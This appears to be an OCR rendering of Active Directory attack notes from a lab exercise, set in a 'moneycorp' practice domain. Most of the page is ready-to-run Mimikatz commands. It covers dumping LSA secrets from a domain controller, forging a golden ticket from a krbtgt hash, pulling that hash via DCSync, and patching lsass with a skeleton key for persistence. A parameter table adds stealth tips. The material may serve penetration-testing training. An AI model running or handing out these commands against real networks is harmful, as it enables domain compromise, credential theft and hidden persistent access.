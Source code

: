 ```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' – Computername dcorp-dc
```

• On any machine :

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

| Invoke-Mimikatz -Command   |   |
|-----------------------------|--------------------------------------------------------------------|
| kerberos::golden|Name of the module                                                             |
| /User:Administrator |Username for which the TGT is generated                                     |
| /domain:dollarcorp.moneycorp.local |Domain FQDN                                                  |
| /sid:S-1-5-21-1874506631-3219952063-538504511 | SID of the domain                                |                                                                
| /krbtgt:ff46a9d8bd66c6efd77603da26796f35 | NTLM (RC4) hash of the krbtgt account. Use /aes128 and /aes256 for using AES keys which is more silent.|
| /id:500 /groups:512 | Optional User RID (default 500) and Group default 513 512 520 518 519) |
| /ptt or /ticket  |  Injects the ticket in current PowerShell process - no need to save the ticket on disk ; Saves the ticket to a file for later use|
| /startoffset:0 | Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future.|
| /endin:600 | Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes|
| /renewmax:10080 | Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 |

• To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges (or a user that has replication rights on the domain object) :

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

## # `Skeleton Key` -

• Skeleton key is a persistence technique where it is possible to patch a Domain Controller (lsass process) so that it allows access as any user with a single password.

• Use the below command to inject a skeleton key (password would be mimikatz) on a Domain Controller of choice. DA privileges required :

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorpdc.dollarcorp.moneycorp.local
```

• Now, it is possible to access any machine with a valid username and password as "mimikatz" :

```powershell
Enter-PSSession –Computername dcorp-dc –credential dcorp\Administrator
```
